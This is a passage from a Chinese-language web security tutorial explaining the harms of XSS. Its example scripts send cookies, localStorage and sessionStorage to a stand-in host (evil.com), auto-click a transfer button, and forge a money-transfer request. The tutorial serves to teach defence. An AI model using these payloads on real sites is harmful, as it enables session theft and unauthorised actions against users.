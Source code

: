 #### 危害特点

- ⚠️ **恶意代码全程在前端处理**
- ⚠️ **不经过服务器**
- ⚠️ **本质是前端代码逻辑漏洞**

## 3. XSS 的主要危害

### 3.1 窃取敏感数据

```javascript
// 窃取 Cookie（含登录 Token、Session ID）
<script>
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      cookie: document.cookie,
      localStorage: localStorage,
      sessionStorage: sessionStorage
    })
  });
</script>
```

**后果：**
- 攻击者可以冒充用户身份登录
- 获取用户的权限数据
- 访问用户的私密信息

### 3.2 伪造用户操作

```javascript
// 自动点击按钮
<script>
  document.querySelector('.transfer-btn').click();
</script>

// 伪造请求
<script>
  fetch('/api/transfer', {
    method: 'POST',
    body: JSON.stringify({
      to: 'attacker',
      amount: 10000
    })
  });
</script>
```

**后果：**
- 未经授权的转账
- 自动发布垃圾内容
- 修改用户密码和资料
